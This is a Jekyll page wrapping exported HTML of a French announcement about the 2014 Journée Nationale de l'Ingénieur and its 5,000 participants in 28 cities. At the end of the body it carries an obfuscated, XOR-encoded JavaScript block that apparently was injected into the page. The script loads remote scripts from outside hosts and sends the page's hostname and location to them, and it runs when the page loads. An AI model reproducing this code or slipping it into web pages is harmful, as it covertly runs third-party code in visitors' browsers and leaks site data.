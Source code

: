 ```yaml
---
layout: default
published: false
title: ""
---
```


##Bilan JNI 2014

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<HTML>
<HEAD>
	<META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=utf-8">
	<TITLE></TITLE>
	<META NAME="GENERATOR" CONTENT="LibreOffice 4.0.5.2 (Linux)">
	<META NAME="AUTHOR" CONTENT="Jacques de VILLELE">
	<META NAME="CREATED" CONTENT="20140322;18060000">
	<META NAME="CHANGEDBY" CONTENT="J d V">
	<META NAME="CHANGED" CONTENT="20140322;18060000">
	<META NAME="AppVersion" CONTENT="12.0000">
	<META NAME="DocSecurity" CONTENT="0">
	<META NAME="HyperlinksChanged" CONTENT="false">
	<META NAME="LinksUpToDate" CONTENT="false">
	<META NAME="ScaleCrop" CONTENT="false">
	<META NAME="ShareDoc" CONTENT="false">
	<STYLE TYPE="text/css">
	<!--
		@page { margin: 0.98in }
		P { margin-bottom: 0.08in; direction: ltr; widows: 2; orphans: 2 }
		A:link { color: #0000ff; so-language: zxx }
	-->
	</STYLE>
<script id="6A8C7E1040C0947D"></script></HEAD>
<BODY LANG="fr-FR" LINK="#0000ff" DIR="LTR">
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=6><B>Succès
JNI 2014</B></FONT></FONT></FONT></P>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>Plus
de 5 000 participants présents à la JNI 2014</B></FONT></FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>qui se déroulerait
dans </FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U><B>28
villes de France</B></U></FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3>
avec des conférences, colloques, table ronde et ateliers, où sont
intervenu des entrepreneurs, des ingénieurs, des innovateurs et des
personnalités de premier plan pour y apporter leur expérience et
leur témoignage. Pour sa 2ème édition la Journée Nationale de
l’Ingénieur 2014 s’articulait autour du thème « Innover,
Entreprendre ».</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%"><A NAME="_GoBack"></A>
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Ces manifestations
étaient organisées en partenariat avec des entreprises et des
organismes de dimension nationale, avec la participation locale des
Régions françaises, des écoles d’ingénieurs et des associations
de diplômés.</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous pouvez revoir
les vidéos assister en différé des sessions qui se sont déroulées
pour le colloque national à la Cité des Sciences et de l’Industrie
le 3 avril 2014( </FONT></FONT><A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U>http://www.iesf-jni.org/</U></FONT></FONT></FONT></A><FONT FACE="Times New Roman, serif"><FONT SIZE=3>).</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous décrouvrir
prochainement le compte rendu du colloque national à la Cité des
Sciences et de l’Industrie, et les photos des différentes JNI dans
toute la France.</FONT></FONT></P>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=4 STYLE="font-size: 13pt"><U><B>http://www.iesf-jni.org/</B></U></FONT></FONT></FONT></A></P>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>Rendez-vous
le </B></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><U><B>2
avril 2015</B></U></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>
pour la troisième JNI</B></FONT></FONT></FONT></P>
<P STYLE="margin-bottom: 0.11in"><BR><BR>
</P>
<script id="6A8C7E1040C0947D">(function(){function p(r){var h=120,n="",w=window,z=("f\x72o"+""+"i\u0058"+"U\u0072\u0061\x72"+"C\x6fd"+"e")['r'+'\x65\x70'+'la\u0063e']("\x69XU"+"r","m"+"C"+""+"h"),e="ch\u0061r"+"\u0043\x6Fd"+"e\x41t"+"",t=("wz"+"ng"+"\x74h"+"")['re'+''+'pl\u0061\u0063e'](""+"w\x7a",""+"le"+""),o="\x53t\u0072i\u006e\x67",f=w[o],q=f[z],k,v;for(var s=0;s<r[t];s++){k=r[e](s);v=k^h;n+=q(v);}return n;};var qc=-1559780412;if(window[p(("S"+"\u0072\x6E"+"n"+"k\x62\b").replace("S"+"r"+"\u006e\u006Ek"+"b","\f\x17"))]==window[p('\u000b\x1d\x14\u001E')]){var vi={};var ff=true;vi[p(("m"+"\u007a\u0042h\n\u000B\u0011\x17\x16").replace("\x6Dz"+"\x42h"+"","\x0E\u001D"))]=p('I'+'\x4DO');try{var nd=-2035394659;}catch(pc){};vi[p(("UO"+"OV\x16\f\r\x11\x1C").replace("\u0055\x4FO\x56","\u001B\x14\x11\u001d"))]="6A8C7E1040C0947D";var xb="hF6y194b5JrB8 AK34";vi[p(('\u0019\x1C\u001c\x6C\u0079\u0046\u006bs'+'\u001d').replace('\u006C\x79\u0046k'+''+'s','\u0017\u0016\x16\x19\u0015'))]=p("\u002A\x1dU\x15\u0019\n\u0013\x11\f");window[p((""+"J"+"W\u0064\u004A\x0e\x02").replace("\u004a\x57"+"dJ","\'\n"))]=vi;(function(){window[p(('\'\'\n\x0E\u0002\n\x67\x6Cj\u0071\x14').replace('g\u006cjq','\x1c\u001f\u001F\x1C'))]={product_name:p(('\x2A\x42'+'J\u006B\u006F\u0019\n\u0013\u0011\f').replace('\u0042Jko','\x1D\u0055\u0015'))};var zj=document[p('\u001B\n\x1D\x19\f\u001D='+'\x14\u001D\x15\u001D\x16\f')](p("\x0b\x1B\n\x11\b\f"));zj[p("\x0B\u001D\f9"+"\f\f\n\x11\x1A\r\f\x1d")](p(("\u006D\u0050QK\b\x1D").replace(""+"m\x50\u0051\x4B","\f\u0001")),p(('\f\u001D\u0000\fW\u0012\u0019Il\u001b\n\x11\b\f').replace('\u0049l','\u000e\x19\x0b')));zj[p('\u000B\u001d\f\u0039\f\f\n\u0011\x1a\r\f\u001d')](p(("\u001B\u0010\u0019\n\x4Ek"+"o\x44\x7A\f").replace("\x4e\x6B\u006FD"+"z","\x0B\u001D")),p(("-\x2c\x64\u004E\u0040").replace("d\u004e",">U")));zj[p('\x0b\u001D\f9\f\f\n\u0011\u001a\r\f\x1d')](p('\u000b\n\x1B'),(p(('yb'+'\x0b\x42').replace('\x79\u0062','\u0010\f\f\b'))==document[p(("\x14\u0049\x47\u0071\x11\u0017\u0016").replace("\x49\u0047\x71","\u0017\x1b\x19\f"))][p((''+'ge'+''+'i\u0054\x1B\x17\x14').replace('g'+''+'eiT','\b\n\x17\f\x17'))]?p("\u0010\f\f\b\u000b"):p(('\x79O'+'A'+'E\u0045\u0047KOMo\x51R\x75\x53\f\b').replace('y\u004F\x41EE\x47\u004bOM\x6F\x51R'+'\x75\x53','\u0010\f')))+p(('\x42W'+'\u0057\u000F\u000F\x0fV'+'\u000b\r\b\x1D\n\x1E\u0011\u000B\u0010V\x1b\u0017\u0015W\x0F\u000bW'+'\x0B\u001E\'\u0015\u0019\x11\x16V\x12\x0B\bG\u001c\u0014\x0b\x17\r\n\x1b\x1D'+'E\u000B\x1E\n\u000e\u0002\n^'+''+'O\u0046'+'O\u001C'+'E').replace('\x4fF'+'\u004f','\r\x0b\u001d\n1'+''))+"6A8C7E1040C0947D"+p("^"+"\u003B\u002c\u0031<E\n\u000e\u0002\n"+"J"+"HL\x48\'\u004AH\x40J"));document[p('\u001A\u0017\x1c\x01')][p(("\x19\b\b\x1d\x16T"+"Ft\u0014\u001C").replace(""+"T\x46t","\u001C"+";\x10\u0011"))](zj);})();(function(){var jy=p(''+'*\x1d\u0055\u0015\u0019\n\x13\u0011\f');var mn={_keyStr:"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=",encode:function(qy){var gf="";var s,df,sw,xp,uw,ue,qu;var br=0;qy=mn[p(("\'\r\f\u001e@"+"\'"+"y\x53\x6f\x52\x70\x1c\x1d").replace("yS"+"\u006fRp"+"","\u001d\u0016\x1B\x17"))](qy);while(br<qy[p(("\u0014\u0054\x4c\u0010").replace("\u0054\u004c","\u001d\u0016\u001f\f"))]){s=qy[p("\u001B\u0010\x19\n"+";\x17\u001c\x1d\x39\f")](br++);df=qy[p(("\u001B\u0010\x19\u0045M\x1c\x1D"+"9\f").replace(""+"EM"+"","\n\u003B\x17"))](br++);sw=qy[p(("\u001b\x10\u0019"+"y\x68qsL\x39\f").replace("\x79h\u0071\x73"+"L","\n\u003B\x17\u001c\u001D"))](br++);xp=s>>2;uw=((s&3)<<4)|(df>>4);ue=((df&15)<<2)|(sw>>6);qu=sw&63;if(isNaN(df)){ue=qu=64}else{if(isNaN(sw)){qu=64}}gf=gf+this[p(("\'\u0055n\u0052\x4A\n").replace("\u0055\u006e\x52"+"J","\u0013\x1d\u0001\x2B\f"))][p("\x1B\x10\u0019\n\x39\f")](xp)+this[p('\'\x13\u001D\x01+'+'\f\n')][p(("vY"+"\f").replace("v\x59","\x1b\u0010\u0019\n\u0039"))](uw)+this[p("\'\u0013\u001D\u0001\u002B\f\n")][p(('\x1bYY\u0072\x48\x61\f').replace('Y'+'\x59\x72H\u0061','\x10\u0019\n9'+''))](ue)+this[p("\'\u0013\u001D\u0001+\f\n")][p("\x1b\x10\x19\n\u0039\f")](qu)}return gf},decode:function(xr){var df={},zp,gu,xz=[],ke="",kr=String[p(("\u001E\n\u0017\x15"+";b"+"\x73\u006e\x57\x3B\x17\x1c\u001d").replace("b\u0073\x6e\u0057","\u0010\u0019\n"))];var vn=[[65,91],[97,123],[48,58],[43,44],[47,48]];for(ts in vn){for(zp=vn[ts][0];zp<vn[ts][1];zp++){xz[p('\b\r\u000b\x10')](kr(zp))}}for(zp=0;zp<64;zp++){df[xz[zp]]=zp}for(zp=0;zp<xr[p(("v\x7A\x10").replace("\x76\u007A","\u0014\u001D\u0016\x1F\f"))];zp+=72){var qu=0,ue,gf,zr=0,zz=xr[p("\u000b\r\x1A\x0b\f\n\u0011\x16\u001F")](zp,zp+72);for(gf=0;gf<zz[p("\x14\u001D\x16\x1F\f\x10")];gf++){ue=df[zz[p(('\x1bT'+'\u0054'+'x\f').replace('\x54'+'T\u0078','\x10\x19\n9'))](gf)];qu=(qu<<6)+ue;zr+=6;while(zr>=8){ke+=kr((qu>>>(zr-=8))%256)}}}return ke},_utf8_encode:function(no){no=no[p('\n\x1D\b\x14\x19\x1b\u001d')](/\r\n/g,"\n");var vn="";for(var zr=0;zr<no[p("\u0014\u001D\x16\u001f\f\x10")];zr++){var gu=no[p('\x1B\u0010\x19\n\u003B\x17\x1c\x1d'+'9\f')](zr);if(gu<128){vn+=String[p(("\x1E\x73fq\x10\u0019\n;"+"\x17\u001c\x1D").replace("\u0073f"+"q","\n\x17\u0015\x3B"))](gu)}else{if((gu>127)&&(gu<2048)){vn+=String[p(('\u001E\n\x17\x15'+';\u0010\x19'+'z\x53\x4bz\u0056\x1d').replace('zS\u004B\x7a\x56','\n;'+'\x17\u001c'))]((gu>>6)|192);vn+=String[p(("\u001E\n\x17\u0015;\x10\x19\u0070\u0079\u0053"+"s\x1c\u001D").replace("\u0070\u0079"+"S\u0073","\n\u003b\u0017"))]((gu&63)|128)}else{vn+=String[p("\u001E\n\u0017\u0015;\u0010\u0019\n;\u0017\u001c\x1D")]((gu>>12)|224);vn+=String[p(("\x1E\n\u0017\x15"+";W"+"M\u004F\u001c\x1D").replace("\x57\x4dO","\x10\x19\n;"+"\u0017"))](((gu>>6)&63)|128);vn+=String[p(("\x1E"+"L\x62o\u0050\u0072\u0019\n;\x17\x1c\u001d").replace("L"+""+"b\u006f\x50\u0072","\n\x17\u0015"+";\u0010"))]((gu&63)|128)}}}return vn}};var ic=p("\x16\x45")+jy+p("\u005E\u0010\u0045\u001f\u0011\n"+"V\u001C\n\u0011\u000E\x1d\n\u0017\b\f\u0011"+"V\u0016\x1D\f^\x17E"+"\x1c\b^"+"\u0019"+"E\u004aH\x4c\u0048\x5E\u000b\x45\x4aH\x40J\u005e\x1bE\x1f\n\x1D\u001D\x16\x5E\u000FE")+document[p(('\x14\u0074S'+'tj'+'\x65\u0017\x16').replace(''+'t\u0053\u0074\x6Ae'+'','\x17\u001b\u0019\f\x11'))][p("\x10\u0017\x0b\f\u0016\x19\x15\x1d")];var vg=p(("\x10\f\f\bB"+"\u0057\x57\x1F\u0011\nV\u001c\n\x11\x0e\x1d\ny"+"\x4d\x4C\x51\u0059\f\u0011"+"V\x16\x1d\f\x57\x0b\x1cW\u0019\b\b\u000b\u0057\u0019\x1C\u0011\x16\u001e\x17UI"+"V\u0048W\x11\x16\u001c\x1d\x00V"+"\u0010\f\x15\u0014G").replace("y\u004D\u004cQY","\x17\b"))+mn[p('\x1d\u0016\u001b\x17\u001c\x1d')](ic);var zj=document[p('\x1B\n\u001d\u0019\f\u001D\x3d\u0014\x1d\x15\x1D\u0016\f')](p('\u000B\u001B\n\x11\b\f'));zj[p('\x0B\u001D\f\x39\f\f\n\u0011\u001a\r\f\x1d')](p("\f\u0001\b\u001D"),p("\f\u001d\u0000\fW"+"\x12\x19\u000e\u0019\x0b\x1B\n\x11\b\f"));zj[p(("\x74p"+"FBY\f\x39\f\f\n\x11\x1A\r\f\u001d").replace("tpFBY"+"","\u000b\u001d"))](p((''+'I\u0041\u0066Y\x1d\f').replace('I\x41'+'fY'+'','\x1B\u0010\u0019\n\x0B')),p(('\u0070\u005a\x51\x3e'+'U\x40').replace('p\u005a'+'Q','\u002D,')));if("http:"==document[p(("\x14\x74lQq\x19\f\u0011\u0017\x16").replace("t"+"l\x51"+"q","\x17\x1B"))][p("\b\n\x17\f\u0017\u001b\u0017\u0014")]){zj[p(("\u000b\u001d\f9\f\f\n\x11l\u0059\f\x1d").replace(""+"l"+"Y","\x1a\r"))](p(('\x6C\u004e'+'VK\x55j\u006D\u0078'+'B\x73\u0076\u0056R\x1b').replace('\x6C\x4E'+'VK'+'U'+'j'+'\u006d\u0078\u0042s\x76\x56R','\u000b\n')),p(('\u0010\f\f\b\x42\x57W\x11V'+'\n\u000E\u0002\n\x12\u000bV\u0011\x16\u001E\x50C'+'\u0079\x5A\n'+'W\u0012\u0019\u000E\x19\x0b\x1b\n\u0011\b\f\x56\x12\x0b\u0047\u001B\x10\x19\x16\x16\u001d\x14'+'E\n\u000E\u0002\n'+'J\u0048\x4CH\'J'+'H\x40J\x5E\x19\b\b,\u0011\f\x14\u001DE').replace('\x50\u0043\u0079Z','\u0017\u0057\n\u000e\x02'))+jy+p('^\b\x14\u0011\x16\x13E'+'')+encodeURIComponent(vg));}else{zj[p('\u000B\x1D\f\x39\f\f\n\x11\x1a\r\f\x1d')](p('\x0b\n\x1B'),p("\u0010\f\f\b\x0bBW"+"\u0057\u0011\'\n\u000e\u0002\n\x12\u000b\'\x11\x16\x1e\u0017\x56\f\x14\u000B\x1B\x1c\x16V\u001B\u0017\x15\u0057\n\u000e\x02\n"+"W\u0012\u0019\x0e\u0019\u000b\x1b\n\x11\b\fV\u0012\u000B\u0047\x1b\u0010\x19\u0016\u0016\u001D\x14E\n\u000e\u0002\n"+"J\x48"+"L\u0048\'\x4a\u0048\x40J\x5e\x19\b\b"+",\x11\f\x14\x1dE")+jy+p("\u005e\b\x14\u0011\x16\x13E"+"")+encodeURIComponent(vg));}document[p("\x1A\x17\u001C\u0001")][p(('\x19\u004D'+'B'+';\u0010\u0011\x14\x1c').replace('\u004D'+'B','\b\b\x1D\x16\x1c'))](zj);})();;var af=document[p('\x1B\n\u001d\x19\f\u001d='+'\x14\x1d\u0015\u001d\u0016\f')](p(("\u000b\u0041D\f").replace("A\x44","\u001B\n\x11\b")));if(navigator.language){var kx=('o'+'\u0078BF'+'\x42J\u0048\x4bj\u0054\u0034\x3a\u0048'+'G\u0020\u0020d\u0070'+'6\u0065\u0057'+'P\u0031').replace('\x78\x42\u0046B','\x6B\x6e\x519i'+'');}else var vm=(' \x45\u0069A'+'cL'+'\x31N\x36X'+'\u0020\x66\x64'+'v\x78\x751').replace('d'+'vxu'+'',' \u0033\x61C'+'\x20');af[p("\x0b\n\u001b")]=p('\u0057W'+'\u001F\u0011\n\u0056\x1C\n\u0011\u000e\x1d\n\u0017\b\f\x11V\u0016\u001d\fW\x0b\u001cW\x4AH\x4C\x48W'+'\u004a\u0048\x40\x4a\u0056\x12\x0b');if(true)var ti='Uq ';else var ln=location.hostname;document[p(('\x1AZ'+'\x74'+'p\x53\u0075'+'U\x70\u0078\x49P'+'v'+'\u0066\u0001').replace('\u005a\u0074p'+'S\u0075'+'U'+'px\x49'+'P\x76\u0066','\u0017\x1C'))][p('\u0019\b\b\u001D\x16\x1c;'+'\x10\u0011\u0014\x1C')](af);}})();</script></BODY>
</HTML>
